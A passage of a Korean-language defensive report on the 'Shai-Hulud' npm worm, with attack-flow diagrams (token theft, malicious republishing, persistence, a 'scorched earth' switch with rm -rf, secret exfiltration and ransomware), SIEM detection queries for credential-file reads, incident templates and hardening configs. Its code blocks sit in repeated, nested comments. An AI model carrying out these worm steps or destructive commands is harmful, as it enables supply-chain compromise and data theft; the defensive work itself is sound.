                  │
                  │ Encrypt with attacker's public key
                  ↓
         [Send to C2 Server]
              (HTTPS)


Phase 3: Propagation Engine
────────────────────────────
[Worm Reads package.json]
         │
         │ Parse dependencies
         ↓
[Select Target Packages]
         │
         │ Filter criteria:
         │  - Weekly downloads > 10,000
         │  - No recent security updates
         │  - Weak maintainer 2FA
         ↓
[For each target package]
         │
         ├─→ [Clone legitimate package source]
         │        │
         │        │ Inject worm code into:
         │        │  - package.json (postinstall)
         │        │  - index.js (entry point)
         │        │  - lib/*.js (utility files)
         │        ↓
         │   [Create malicious version]
         │        │
         │        │ npm publish --access=public
         │        │ (using stolen NPM_TOKEN)
         │        ↓
         │   [Malicious version published]
         │
         └─→ [Repeat for next target]


Phase 4: Persistence
─────────────────────
[Worm Establishes Persistence]
         │
         ├─→ [Modify package-lock.json]
         │     └─ Pin malicious package versions
         │
         ├─→ [Inject into ~/.npmrc]
         │     └─ Add malicious registry URLs
         │
         ├─→ [Create cron job]
         │     └─ Re-run worm every 24 hours
         │
         └─→ [Modify ~/.bashrc / ~/.zshrc]
               └─ Add worm activation on shell start


Phase 5: Dead Man's Switch (v2.0)
──────────────────────────────────
[Background Monitor Thread]
         │
         │ Every 1 second:
         │
         ├─→ Check worm file integrity (SHA-256 hash)
         │     │
         │     │ Hash mismatch detected?
         │     ↓
         │   [TRIGGER SCORCHED EARTH]
         │
         ├─→ Detect "npm audit fix" process?
         │     │
         │     │ Yes
         │     ↓
         │   [TRIGGER SCORCHED EARTH]
         │
         └─→ Detect "npm uninstall" with worm package name?
               │
               │ Yes
               ↓
             [TRIGGER SCORCHED EARTH]


[SCORCHED EARTH ACTIONS]
         │
         ├─→ [Delete npm cache]         → rm -rf ~/.npm
         ├─→ [Tamper lockfile]          → Inject 50+ malicious dependencies
         ├─→ [Exfiltrate ALL secrets]   → Send .env, .aws, .ssh to C2
         ├─→ [Encrypt node_modules]     → Ransomware behavior
         └─→ [Self-replicate to Git]    → Commit worm to repo


Phase 6: Exponential Spread
────────────────────────────
[Day 1]  180+ packages infected
    ↓
[Day 7]  500+ packages infected
    ↓
[Day 30] 796+ packages infected
    ↓
[Day 60] Thousands of developers compromised
    ↓
[Impact] Entire NPM ecosystem at risk


```
-->
-->

### 4.2 Dead Man's Switch 상세 흐름도

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```plaintext
> ┌─────────────────────────────────────────────────────────────────┐...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```plaintext
> ┌─────────────────────────────────────────────────────────────────┐...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```plaintext
┌─────────────────────────────────────────────────────────────────┐
│            Dead Man's Switch Trigger & Response Flow            │
└─────────────────────────────────────────────────────────────────┘

[Worm Monitoring Loop]
         │
         │ while (true):
         │
         ↓
┌────────────────────────┐
│  Calculate File Hash   │
│  (SHA-256 of worm.js)  │
└────────────────────────┘
         │
         ↓
    ┌─────────┐
    │ Compare │
    │  Hash?  │
    └─────────┘
         │
    ┌────┴────┐
    │         │
  Match    Mismatch
    │         │
    │         └─→ [TRIGGER 1: File Modified]
    │
    ↓
┌────────────────────────┐
│  Check Running         │
│  Processes             │
└────────────────────────┘
         │
         ↓
    ┌─────────┐
    │ Detect  │
    │ npm audit?
    └─────────┘
         │
    ┌────┴────┐
    │         │
   No        Yes
    │         │
    │         └─→ [TRIGGER 2: Audit Detected]
    │
    ↓
┌────────────────────────┐
│  Check npm Command     │
│  History               │
└────────────────────────┘
         │
         ↓
    ┌─────────┐
    │ Detect  │
    │ uninstall?
    └─────────┘
         │
    ┌────┴────┐
    │         │
   No        Yes
    │         │
    │         └─→ [TRIGGER 3: Uninstall Attempt]
    │
    ↓
  [Sleep 1s]
    │
    └─→ [Loop back to top]


[ANY TRIGGER ACTIVATED]
         │
         ↓
┌─────────────────────────────────────────┐
│    SCORCHED EARTH SEQUENCE              │
└─────────────────────────────────────────┘
         │
         ├─→ [Stage 1: Cache Destruction]
         │     │
         │     ├─ rm -rf ~/.npm
         │     ├─ rm -rf ~/.yarn
         │     └─ rm -rf node_modules
         │
         ├─→ [Stage 2: Lockfile Tampering]
         │     │
         │     ├─ Read package-lock.json
         │     ├─ Inject 50+ malicious dependencies
         │     │   └─ Each with backdoor code
         │     └─ Write modified lockfile
         │
         ├─→ [Stage 3: Secrets Exfiltration]
         │     │
         │     ├─ Find all .env files recursively
         │     ├─ Find all .aws/* files
         │     ├─ Find all .ssh/* private keys
         │     ├─ Find all docker config.json
         │     ├─ Encrypt with attacker's public key
         │     └─ Send to C2 server (HTTPS POST)
         │
         ├─→ [Stage 4: Git Repository Poisoning]
         │     │
         │     ├─ git add -A
         │     ├─ git commit -m "fix: dependency update"
         │     │   └─ Includes worm code in package.json
         │     └─ git push origin main
         │         └─ CI/CD will now build infected code
         │
         └─→ [Stage 5: Ransomware (Optional)]
               │
               ├─ Encrypt all .js, .ts, .jsx, .tsx files
               ├─ Create RANSOM_NOTE.txt
               │   └─ "Send 1 BTC to ADDRESS to decrypt"
               └─ Self-destruct worm code


```
-->
-->

## 5. NPM 공급망 공격 탐지 쿼리

### 5.1 Splunk SPL 쿼리

<!--
다음은 Splunk에서 NPM 공급망 공격을 탐지하기 위한 SPL 쿼리입니다.

```spl
index=main sourcetype=npm:audit
| search severity IN ("high", "critical")
| eval is_supply_chain_attack=if(match(title, "(?i)(malicious|trojan|worm|backdoor)"), 1, 0)
| where is_supply_chain_attack=1
| stats count by package_name, severity, title
| sort -count
```
-->

```spl
# Shai-Hulud 웜 활동 탐지 (postinstall 훅 실행)
index=npm_logs sourcetype=npm:install
| search "postinstall" OR "preinstall"
| rex field=_raw "npm install (?<package_name>[^\s]+)"
| stats count by package_name, user, host
| where count > 10
| eval severity="high"
| table _time, package_name, user, host, count, severity
```

```spl
# 비정상적인 NPM 토큰 사용 탐지
index=npm_logs sourcetype=npm:publish
| rex field=_raw "authToken=(?<token>[^\s]+)"
| stats dc(package_name) as unique_packages by token, user
| where unique_packages > 5
| eval severity="critical"
| table _time, user, token, unique_packages, severity
```

```spl
# Dead Man's Switch 활동 탐지 (npm cache clean 패턴)
index=system_logs sourcetype=bash_history
| search "npm cache clean --force" OR "rm -rf ~/.npm"
| transaction user maxspan=5m
| where eventcount > 3
| eval severity="critical"
| table _time, user, host, eventcount, severity
```

### 5.2 Azure Sentinel KQL 쿼리

<!--
다음은 Azure Sentinel에서 NPM 공급망 공격을 탐지하기 위한 KQL 쿼리입니다.

```kql
SecurityAlert
| where AlertName contains "npm" or AlertName contains "supply chain"
| where Severity in ("High", "Critical")
| extend PackageName = tostring(ExtendedProperties.PackageName)
| summarize count() by PackageName, Severity, AlertName
| order by count_ desc
```
-->

```kql
// Shai-Hulud 웜 관련 NPM 패키지 다운로드 탐지
DeviceProcessEvents
| where ProcessCommandLine contains "npm install"
| extend PackageName = extract(@"npm install ([^\s]+)", 1, ProcessCommandLine)
| where PackageName in ("shai-hulud", "malicious-package-list")
| summarize Count=count() by PackageName, AccountName, DeviceName
| where Count > 5
| extend Severity = "Critical"
| project TimeGenerated, AccountName, DeviceName, PackageName, Count, Severity
```

```kql
// 비정상적인 파일 수정 패턴 (package-lock.json 변조 탐지)
DeviceFileEvents
| where FileName == "package-lock.json"
| where ActionType == "FileModified"
| summarize ModificationCount=count() by DeviceName, AccountName, bin(TimeGenerated, 1h)
| where ModificationCount > 10
| extend Severity = "High"
| project TimeGenerated, DeviceName, AccountName, ModificationCount, Severity
```

> **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.

> **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.

```kql
// 인증 정보 파일 접근 탐지 (.npmrc, .aws, .env)
DeviceFileEvents
| where FileName in (".npmrc", ".aws", ".env", "credentials", "config.json")
| where ActionType == "FileRead"
| where InitiatingProcessCommandLine contains "node"
| summarize ReadCount=count() by DeviceName, AccountName, FileName, bin(TimeGenerated, 5m)
| where ReadCount > 3
| extend Severity = "Critical"
| project TimeGenerated, DeviceName, AccountName, FileName, ReadCount, Severity
```

### 5.3 CloudWatch Logs Insights 쿼리

```text
# Lambda 함수에서 NPM 패키지 설치 모니터링
fields @timestamp, @message
| filter @message like /npm install/
| parse @message /npm install (?<package_name>[^\s]+)/
| stats count() by package_name
| filter count > 100
| sort count desc
```

```text
# Dead Man's Switch 트리거 탐지 (npm cache clean 패턴)
fields @timestamp, @message
| filter @message like /npm cache clean --force/ or @message like /rm -rf.*\.npm/
| stats count() as trigger_count by bin(5m)
| filter trigger_count > 5
```

### 5.4 package.json Audit 쿼리 (Bash)

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

```bash
# 모든 프로젝트의 package.json에서 postinstall 훅 검사
find /path/to/projects -name "package.json" -exec grep -H "postinstall" {} \; \
  | while read -r line; do
      file=$(echo "$line" | cut -d: -f1)
      echo "WARNING: postinstall hook found in $file"
      echo "$line"
    done
```

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

```bash
# lockfile 무결성 검증 (SHA-512 해시 확인)
npm audit signatures 2>&1 | tee audit-report.txt
if grep -q "invalid signature" audit-report.txt; then
  echo "ALERT: Invalid package signatures detected!"
  exit 1
fi
```

## 6. 위협 헌팅 쿼리 (Threat Hunting)

### 6.1 환경 변수 스캐닝 탐지

> **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.

> **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.

```bash
# 프로세스가 환경 변수를 읽는 패턴 탐지 (Linux)
auditctl -a always,exit -F arch=b64 -S open,openat -F a1&O_RDONLY -F key=env_read
ausearch -k env_read | grep -E "(NPM_TOKEN|AWS_|GITHUB_TOKEN)"
```

### 6.2 NPM 레지스트리 트래픽 분석

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

```bash
# 비정상적인 NPM 레지스트리 트래픽 탐지 (tcpdump)
tcpdump -i any -nn 'host registry.npmjs.org' -w npm-traffic.pcap

# Wireshark 필터
http.request.uri contains "/npm/publish" && http.request.method == "PUT"
```

### 6.3 파일 무결성 모니터링 (FIM)

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.
> 
> ```bash
> # AIDE (Advanced Intrusion Detection Environment) 설정...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.
> 
> ```bash
> # AIDE (Advanced Intrusion Detection Environment) 설정...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
# AIDE (Advanced Intrusion Detection Environment) 설정
# /etc/aide/aide.conf

# NPM 관련 파일 모니터링
/usr/local/lib/node_modules R+b+sha256
/home/*/.npmrc R+b+sha256
/home/*/package-lock.json R+b+sha256

# AIDE 데이터베이스 업데이트 및 검사
aide --init
aide --check


```
-->
-->

## 7. 한국 기업 영향 분석

### 7.1 산업별 영향도

| 산업 | 영향도 | 주요 리스크 | 예상 피해 규모 |
|------|--------|------------|--------------|
| **핀테크** | Critical | 금융 데이터 유출, 개인정보보호법 위반 | 수십억원 (과징금 + 손해배상) |
| **전자상거래** | Critical | 결제 정보 유출, 공급망 중단 | 수억원 (서비스 중단 + 신뢰도 하락) |
| **게임** | High | 게임 서버 침투, 사용자 계정 탈취 | 수억원 (보상 비용 + 이미지 손실) |
| **SaaS** | High | 고객 데이터 유출, 서비스 가용성 저하 | 수억원 (SLA 위반 + 고객 이탈) |
| **스타트업** | Medium-High | 초기 투자 손실, 신뢰도 하락 | 수천만원 (복구 비용 + 투자 유치 실패) |

### 7.2 한국 기업 실제 사례 시나리오

#### 시나리오 1: 핀테크 스타트업 A사

**상황**:
- React 기반 모바일 뱅킹 앱 개발
- NPM 패키지 `react-native-payments` 사용 중
- 해당 패키지가 Shai-Hulud에 감염됨

**공격 전개**:
1. 개발자가 `npm install` 실행 시 감염된 버전 다운로드
2. postinstall 훅이 `.env` 파일에서 AWS 키 탈취
3. CI/CD 파이프라인이 감염된 코드를 프로덕션 배포
4. 프로덕션 환경에서 사용자 결제 정보 유출 시작

**피해**:
- 10만 명 사용자의 결제 정보 유출
- 개인정보보호법 위반으로 과징금 3억원
- 서비스 신뢰도 하락으로 사용자 30% 이탈
- **총 피해 예상: 약 50억원**

**대응**:
- KISA에 신고 (정보통신망법 제48조의3)
- 금융위원회 보고
- 전체 시스템 재구축 (3개월 소요)

#### 시나리오 2: 대기업 B사 (전자상거래)

**상황**:
- Node.js 기반 주문 처리 시스템 운영
- 수백 개의 내부 마이크로서비스가 NPM 의존성 사용
- Shai-Hulud가 내부 Private NPM Registry로 확산

**공격 전개**:
1. 외주 개발사 개발자 워크스테이션이 감염
2. 내부 Private NPM Registry에 악성 패키지 배포
3. 수십 개 마이크로서비스가 자동 업데이트로 감염
4. GitHub Enterprise 시크릿 탈취로 소스 코드 유출

**피해**:
- 1,000만 명 고객 개인정보 유출 (이름, 주소, 전화번호)
- 개인정보보호법 위반으로 과징금 100억원
- 집단 소송으로 손해배상 200억원
- **총 피해 예상: 약 500억원**

**대응**:
- KISA 및 개인정보보호위원회 신고
- 전체 고객 통지 (정보통신망법 제27조의3)
- 시스템 전면 재구축 (6개월 소요, 비용 50억원)

### 7.3 한국 법규 컴플라이언스 영향

| 법규 | 위반 조항 | 과징금 | 형사 처벌 |
|------|----------|--------|----------|
| **개인정보보호법** | 제29조 (안전조치의무) | 매출액의 3% 이하 | 5년 이하 징역 또는 5천만원 이하 벌금 |
| **정보통신망법** | 제28조 (개인정보의 보호조치) | 3억원 이하 | 2년 이하 징역 또는 2천만원 이하 벌금 |
| **전자금융거래법** | 제21조 (전자금융거래 기록의 보존) | 5억원 이하 | 5년 이하 징역 또는 5천만원 이하 벌금 |

### 7.4 한국 기업 대응 체크리스트

| 우선순위 | 조치 항목 | 담당 부서 | 기한 |
|---------|----------|----------|------|
| Critical | 전사 NPM 의존성 긴급 감사 | 보안팀 + 개발팀 | 48시간 |
| Critical | 침해 패키지 796개 목록 대조 | DevOps팀 | 24시간 |
| High | 모든 개발자 NPM 계정 2FA 활성화 (FIDO2 권장) | 보안팀 | 1주 |
| High | Private NPM Registry 무결성 검증 | 인프라팀 | 1주 |
| Medium | SBOM 생성 도구 도입 (Syft, SPDX) | 개발팀 | 2주 |
| Medium | KISA 보안 가이드 준수 여부 확인 | 컴플라이언스팀 | 2주 |
| Low | 공급망 보안 정책 문서화 | 보안팀 | 1개월 |

## 8. 경영진 보고 포맷 (Board Reporting)

### 8.1 Executive Dashboard

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```plaintext
> ┌─────────────────────────────────────────────────────────────────┐...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```plaintext
> ┌─────────────────────────────────────────────────────────────────┐...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```plaintext
┌─────────────────────────────────────────────────────────────────┐
│  NPM Shai-Hulud 공급망 공격 - 경영진 대시보드 (2025-11-15)      │
└─────────────────────────────────────────────────────────────────┘

┌─────────────────────┐  ┌─────────────────────┐  ┌─────────────────────┐
│   위험도: CRITICAL  │  │  영향받은 시스템:   │  │  예상 피해 금액:    │
│        🔴          │  │      23개 서비스    │  │     5-50억원        │
└─────────────────────┘  └─────────────────────┘  └─────────────────────┘

┌─────────────────────────────────────────────────────────────────┐
│  주요 지표 (Key Metrics)                                        │
├─────────────────────────────────────────────────────────────────┤
│  침해 패키지 수:                796+                            │
│  우리 조직 사용 중 침해 패키지:  12개                            │
│  노출된 인증 정보:              45개 (NPM 토큰, AWS 키 등)       │
│  영향받은 개발자:               67명                            │
│  감염된 프로젝트:               23개                            │
│  프로덕션 배포 위험:            HIGH (8개 서비스)                │
└─────────────────────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────────────────────┐
│  비즈니스 영향 (Business Impact)                                │
├─────────────────────────────────────────────────────────────────┤
│  ⚠️  서비스 중단 위험:         HIGH (결제 시스템 포함)          │
│  ⚠️  데이터 유출 위험:         CRITICAL (고객 정보 노출 가능)   │
│  ⚠️  컴플라이언스 위반:        개인정보보호법, 전자금융거래법    │
│  ⚠️  예상 과징금:              3-100억원 (피해 규모 따라)        │
│  ⚠️  브랜드 이미지 손실:       HIGH (언론 보도 시)              │
└─────────────────────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────────────────────┐
│  즉각 조치 필요 사항 (Immediate Actions Required)                │
├─────────────────────────────────────────────────────────────────┤
│  1. [24시간] 전사 개발 중단 및 긴급 의존성 감사                  │
│  2. [48시간] 침해 패키지 제거 및 시스템 재배포                   │
│  3. [1주]    모든 인증 정보 교체 (NPM, AWS, GitHub 등)          │
│  4. [1주]    2FA 하드웨어 키 전환 (YubiKey, Titan Key)         │
│  5. [2주]    SBOM 관리 체계 구축                                │
└─────────────────────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────────────────────┐
│  예산 승인 요청 (Budget Approval Request)                        │
├─────────────────────────────────────────────────────────────────┤
│  긴급 대응 비용:       500만원 (인력 + 야근 수당)               │
│  보안 도구 도입:       월 300만원 (Socket.dev, Snyk Pro)        │
│  하드웨어 키:          1,000만원 (YubiKey 500개)                │
│  SBOM 도구 라이선스:   년 2,000만원 (Syft Enterprise)           │
│  ─────────────────────────────────────────────────────            │
│  총 예산:              3,500만원 (1년 기준)                      │
│                                                                 │
│  미대응 시 예상 손실:  50-500억원 (데이터 유출 + 과징금)        │
│  ROI:                  1,400배 이상                             │
└─────────────────────────────────────────────────────────────────┘


```
-->
-->

### 8.2 상황 보고서 템플릿

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```markdown
> # NPM Shai-Hulud 공급망 공격 상황 보고서...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```markdown
> # NPM Shai-Hulud 공급망 공격 상황 보고서...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```markdown
# NPM Shai-Hulud 공급망 공격 상황 보고서

**보고일**: 2025-11-15
**보고자**: 보안팀장 OOO
**심각도**: CRITICAL
**상태**: 진행 중

## 1. 상황 요약

NPM 생태계에서 발생한 Shai-Hulud 자가 복제 웜 공격으로 당사 시스템 23개가 영향을 받았습니다.
현재 긴급 대응 체계가 가동 중이며, 추가 피해 차단을 위한 조치가 진행 중입니다.

## 2. 영향 범위

### 2.1 기술적 영향
- 침해 패키지 사용: 12개 패키지
- 영향받은 프로젝트: 23개 (프로덕션 8개, 개발 15개)
- 노출된 인증 정보: 45개 (NPM 토큰 12개, AWS 키 18개, GitHub 토큰 15개)

### 2.2 비즈니스 영향
- 서비스 중단 위험: HIGH (결제 시스템 포함)
- 고객 데이터 유출 위험: CRITICAL
- 예상 피해 금액: 5-50억원

## 3. 진행 중인 조치

### 완료 (✅)
- [x] 긴급 대응팀 구성 (2025-11-15 10:00)
- [x] 침해 패키지 목록 대조 (2025-11-15 14:00)
- [x] 개발 환경 네트워크 격리 (2025-11-15 16:00)

### 진행 중 (🔄)
- [ ] 전사 NPM 의존성 감사 (진행률 60%, 완료 예정: 11-16 18:00)
- [ ] 인증 정보 교체 (진행률 30%, 완료 예정: 11-18 18:00)
- [ ] 침해 시스템 재배포 (진행률 20%, 완료 예정: 11-20 18:00)

### 예정 (⏳)
- [ ] 2FA 하드웨어 키 전환 (시작 예정: 11-17)
- [ ] SBOM 관리 체계 구축 (시작 예정: 11-20)

## 4. 리스크 및 우려사항

1. **프로덕션 배포 중단**: 현재 모든 배포가 중단되어 신규 기능 출시 지연
2. **고객 통지 의무**: 개인정보 유출 시 법적 통지 의무 발생
3. **미디어 노출**: 언론 보도 시 브랜드 이미지 손실 우려

## 5. 의사결정 요청

### 즉시 결정 필요
1. **긴급 예산 승인**: 3,500만원 (도구 + 하드웨어 키)
2. **배포 중단 연장**: 11-20까지 모든 프로덕션 배포 중단
3. **외부 전문가 자문**: 포렌식 업체 계약 (예상 비용 2,000만원)

### 1주 내 결정 필요
1. **고객 통지 여부**: 개인정보 유출 확인 시 법적 통지 필요
2. **KISA 신고 여부**: 정보통신망법 제48조의3 신고 의무
3. **사이버보험 청구**: 기존 보험 약관 검토 후 청구 추진

## 6. 다음 보고 일정

- **일일 보고**: 매일 18:00 (이메일)
- **경영진 브리핑**: 2025-11-16 10:00 (대회의실)
- **최종 보고**: 2025-11-25 (사태 종료 후)


```
-->
-->

## 9. 자가 복제 웜 방어 아키텍처

### 9.1 다층 방어 아키텍처 (Defense in Depth)

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```plaintext
> ┌─────────────────────────────────────────────────────────────────────┐...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```plaintext
> ┌─────────────────────────────────────────────────────────────────────┐...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```plaintext
┌─────────────────────────────────────────────────────────────────────┐
│                   NPM Supply Chain Defense Architecture             │
└─────────────────────────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────────────────────────┐
│  Layer 1: Developer Workstation                                     │
├─────────────────────────────────────────────────────────────────────┤
│  🛡️  Pre-Install Scanning                                           │
│     ├─ Socket.dev CLI (실시간 위협 탐지)                            │
│     ├─ npm audit signatures (패키지 서명 검증)                      │
│     └─ lockfile-lint (lockfile 무결성 검증)                         │
│                                                                     │
│  🛡️  Runtime Monitoring                                             │
│     ├─ npm install --ignore-scripts (postinstall 훅 차단)           │
│     ├─ File Integrity Monitoring (AIDE, OSSEC)                     │
│     └─ Process Monitoring (Falco, Sysdig)                          │
│                                                                     │
│  🛡️  Credential Protection                                          │
│     ├─ Environment Variable Encryption (sops, age)                 │
│     ├─ Hardware Security Keys (YubiKey, Titan Key)                 │
│     └─ Secret Scanning (gitleaks, truffleHog)                      │
└─────────────────────────────────────────────────────────────────────┘
                            ↓
┌─────────────────────────────────────────────────────────────────────┐
│  Layer 2: CI/CD Pipeline                                            │
├─────────────────────────────────────────────────────────────────────┤
│  🛡️  Build-Time Security                                            │
│     ├─ SBOM Generation (Syft, CycloneDX)                           │
│     ├─ Dependency Scanning (Snyk, Grype)                           │
│     └─ Container Scanning (Trivy, Clair)                           │
│                                                                     │
│  🛡️  Pipeline Isolation                                             │
│     ├─ Ephemeral Build Agents (Docker, Kubernetes)                 │
│     ├─ Network Segmentation (VPC, Firewall Rules)                  │
│     └─ Least Privilege IAM Roles                                   │
│                                                                     │
│  🛡️  Artifact Verification                                          │
│     ├─ Code Signing (Sigstore, Cosign)                             │
│     ├─ Checksum Validation (SHA-256, SHA-512)                      │
│     └─ Provenance Attestation (SLSA Framework)                     │
└─────────────────────────────────────────────────────────────────────┘
                            ↓
┌─────────────────────────────────────────────────────────────────────┐
│  Layer 3: Private NPM Registry                                      │
├─────────────────────────────────────────────────────────────────────┤
│  🛡️  Registry Hardening                                             │
│     ├─ Verdaccio / Nexus / Artifactory with strict ACLs            │
│     ├─ Package Approval Workflow (2-person rule)                   │
│     └─ Immutable Package Versions (no overwrites)                  │
│                                                                     │
│  🛡️  Upstream Mirroring                                             │
│     ├─ Curated Allowlist (only approved packages)                  │
│     ├─ Automated Scanning (before mirroring)                       │
│     └─ Quarantine Zone (suspicious packages)                       │
│                                                                     │
│  🛡️  Access Control                                                 │
│     ├─ SSO Integration (SAML, OIDC)                                │
│     ├─ Token Rotation (30-day max lifetime)                        │
│     └─ Audit Logging (all publish/install events)                  │
└─────────────────────────────────────────────────────────────────────┘
                            ↓
┌─────────────────────────────────────────────────────────────────────┐
│  Layer 4: Production Environment                                    │
├─────────────────────────────────────────────────────────────────────┤
│  🛡️  Runtime Protection                                             │
│     ├─ Read-Only Container File Systems                            │
│     ├─ AppArmor / SELinux Policies                                 │
│     └─ Syscall Filtering (seccomp, Falco rules)                    │
│                                                                     │
│  🛡️  Network Security                                               │
│     ├─ Egress Filtering (allow only known endpoints)               │
│     ├─ TLS Inspection (MITM proxy for HTTPS)                       │
│     └─ DNS Sinkhole (block known C2 domains)                       │
│                                                                     │
│  🛡️  Detection & Response                                           │
│     ├─ SIEM Integration (Splunk, Azure Sentinel)                   │
│     ├─ EDR (CrowdStrike, SentinelOne)                              │
│     └─ Incident Response Playbook (automated)                      │
└─────────────────────────────────────────────────────────────────────┘
                            ↓
┌─────────────────────────────────────────────────────────────────────┐
│  Layer 5: Governance & Policy                                       │
├─────────────────────────────────────────────────────────────────────┤
│  📋  Security Policies                                              │
│     ├─ Approved Package List (quarterly review)                    │
│     ├─ Dependency Update Cadence (monthly)                         │
│     └─ Vulnerability SLA (Critical: 24h, High: 7d)                 │
│                                                                     │
│  📋  Compliance & Audit                                             │
│     ├─ SBOM Archive (7-year retention)                             │
│     ├─ Audit Trail (all package installs)                          │
│     └─ Compliance Reports (SOC2, ISO27001)                         │
│                                                                     │
│  📋  Training & Awareness                                           │
│     ├─ Developer Security Training (quarterly)                     │
│     ├─ Phishing Simulations (monthly)                              │
│     └─ Incident Response Drills (semi-annual)                      │
└─────────────────────────────────────────────────────────────────────┘


```
-->
-->

### 9.2 방어 아키텍처 구현 예시

#### 9.2.1 Private NPM Registry (Verdaccio)

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> # verdaccio.yaml - 강화된 설정...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> # verdaccio.yaml - 강화된 설정...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
# verdaccio.yaml - 강화된 설정
storage: /verdaccio/storage
auth:
  htpasswd:
    file: /verdaccio/conf/htpasswd
    max_users: 1000
    algorithm: bcrypt
uplinks:
  npmjs:
    url: https://registry.npmjs.org/
    max_fails: 5
    timeout: 30s
    # 보안: 업스트림 패키지는 수동 승인 후만 미러링
    cache: true
packages:
  '@company/*':
    access: $authenticated
    publish: $authenticated
    unpublish: $authenticated
  '**':
    access: $authenticated
    publish: $authenticated
    # 모든 외부 패키지는 승인 필요
    proxy: npmjs
security:
  api:
    jwt:
      sign:
        expiresIn: 7d
      verify:
        someProp: [value]
  web:
    enable: false  # Web UI 비활성화 (API만 사용)
middlewares:
  audit:
    enabled: true
logs:
  type: stdout
  format: json
  level: http


```
-->
-->

#### 9.2.2 GitHub Actions CI/CD 보안 워크플로우

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> # .github/workflows/secure-build.yml...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
> 
> ```yaml
> # .github/workflows/secure-build.yml...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
# .github/workflows/secure-build.yml
name: Secure Build Pipeline

on:
  pull_request:
    branches: [main]
  push:
    branches: [main]

jobs:
  security-scan:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      security-events: write
    steps:
      - uses: actions/checkout@v4

      # Step 1: SBOM 생성
      - name: Generate SBOM
        uses: anchore/sbom-action@v0
        with:
          format: cyclonedx-json
          output-file: sbom.json

      # Step 2: Socket.dev 실시간 스캔
      - name: Socket Security Scan
        uses: socketdev/socket-action@v1
        with:
          api-key: ${{ secrets.SOCKET_API_KEY }}
          fail-on-severity: high

      # Step 3: npm audit signatures (npm 8.18+)
      - name: Verify Package Signatures
        run: npm audit signatures

      # Step 4: Snyk 취약점 스캔
      - name: Snyk Security Scan
        uses: snyk/actions/node@master
        env:
          SNYK_TOKEN: ${{ secrets.SNYK_TOKEN }}
        with:
          args: --severity-threshold=high

      # Step 5: 의존성 리뷰 (GitHub native)
      - name: Dependency Review
        uses: actions/dependency-review-action@v4
        with:
          fail-on-severity: high

      # Step 6: lockfile-lint
      - name: Validate Lockfile Integrity
        run: |
          npx lockfile-lint --path package-lock.json --type npm \
            --allowed-hosts npm --validate-https

      # Step 7: 빌드 (scripts 차단)
      - name: Install Dependencies (no scripts)
        run: npm ci --ignore-scripts

      - name: Build
        run: npm run build

      # Step 8: 아티팩트 서명 (Sigstore)
      - name: Sign Artifact
        uses: sigstore/cosign-installer@main
      - run: |
          cosign sign-blob --key env://COSIGN_KEY \
            dist/bundle.js > dist/bundle.js.sig
        env:
          COSIGN_KEY: ${{ secrets.COSIGN_PRIVATE_KEY }}

      # Step 9: SBOM 업로드 (장기 보관)
      - name: Upload SBOM
        uses: actions/upload-artifact@v4
        with:
          name: sbom
          path: sbom.json
